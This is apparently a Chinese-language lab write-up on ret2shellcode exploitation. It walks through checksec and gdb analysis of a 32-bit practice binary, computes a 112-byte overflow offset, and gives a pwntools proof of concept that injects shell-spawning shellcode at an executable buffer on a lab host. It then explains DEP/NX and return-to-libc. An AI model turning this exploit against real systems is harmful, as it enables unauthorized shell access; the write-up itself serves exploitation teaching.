# ret-to-shellcode
>RET->可读可写可执行地址<-写shellcode


## 典代码注入的核心思想
- 利用逻辑异常，在程序数据中混入代码
- 劫持控制流，使得指令指针从数据段读取指令
- 所需弱点：读取指令时，CPU无法区分目标内存区域的性质（代码？数据？）


## ret2shellcode练习
**checksec ret2shellcode**:查看栈保护

几乎无保护

**file ret2shellcode**：查看文件类型

32位可执行文件

**strings ret2shellcode | grep system**：查看有没有可以直接利用的系统调用

无

*gdb动态调试*

**info func**：查看函数

只有main函数

**disass main**：查看main函数汇编


关键点
```
 0x0804852d <+0>:     push   ebp
 |
 |
 |
 |
 0x0804858c <+95>:    lea    eax,[esp+0x1c]     //offset=112
 |
 0x08048593 <+102>:   call   0x80483d0 <gets@plt>
 |
 |
 0x08048598 <+107>:   mov    DWORD PTR [esp+0x8],0x64
 0x080485a0 <+115>:   lea    eax,[esp+0x1c]
 0x080485a4 <+119>:   mov    DWORD PTR [esp+0x4],eax
 0x080485a8 <+123>:   mov    DWORD PTR [esp],0x804a080
 0x080485af <+130>:   call   0x8048420 <strncpy@plt>

```

**偏移量**

offset=$ebp-$esp-0x1c+4=0x6c+4=112


**info file**：静态查看段


**vmmap**：查看段权限


可读可写可执行

**strncpy函数原型**

`char *strncpy(char *dest, const char *src, size_t n);`

- 参数1（dest）：目标缓冲区的起始地址（你要往哪儿写）。

- 参数2（src）：源字符串的起始地址（你要从哪儿复制）。

- 参数3（n）：最多复制的字节数（通常是你目标缓冲区的大小）。

- 返回值：返回 dest 的指针（其实就是把参数1原样返回）。

**在本题中**：

- n=0x64=100

- src=[esp+0x1c]    //gets函数读取的起始位置

- dest=*0x804a080   //该位置可读可写可执行

**payload思路**
```
（恶意shellcode+填充）+RET=116
         |             |
        112        dest=*0x804a080
```

**PoC**
```
from pwn import *

HOST='172.16.31.144'
PORT=32775
p=remote(HOST,PORT)
offset=112
RET=0x804a080
shellcode=asm(shellcraft.sh())

payload=shellcode.ljust(112,b'A')+p32(RET)

p.sendline(payload)
p.interactive()
```



## 数据执行保护（Data Execution Prevention）
NX即No-eXecute（不可执行）的意思，基本原理是将数据所在内存页标识为不可执行，当程序溢出成功转入shellcode时，程序会尝试在数据页面上执行指令，此时CPU就会抛出异常，而不是去执行恶意指令。



- 一些别名：W⊕X，NX-bit
- 机制：对内存页面增加一个标识bit，使之要么可改写，要么可执行

**DEP核心思想**
缓冲区溢出的常用攻击方法是用 shellcode 的地址来覆盖漏洞程序的返回地址，使得漏洞程序去执行存放在栈中 shellcode
为了阻止这种类型的攻击，一些操作系统使得系统管理员具有使栈不可执行的能力。这样的话，一旦程序执行存放在栈中的 shellcode 就会崩溃，从而阻止了攻击

**DEP的防御思路**

- 引入新的硬件安全属性，支持CPU在执行时区分代码和数据区域
- 但是：若不试图执行数据区内容，则不能发现/阻止溢出，也无法防范溢出的其他后果

## 如何绕过DEP
>DEP客观存在，注入类攻击如何下手？--- 代码重用（code reuse）攻击

- 异常数据的注入仍然可以实施
- 既然代码无法直接注入，那么就利用进程空间中已经存在的代码
- 不管所利用代码原本的用途为何，通过注入的异常数据控制其为攻击者服务

最先出现的此类手段：return-to-libc攻击


>新的利用点：复杂指令集（complex instruction set computing，CISC）

- 指令变长（目的：以最短的代码长度压缩最多的指令内容）
- CPU串行地读取指令，依据上下文区分操作码/操作数等成分
- 典型：x86指令构架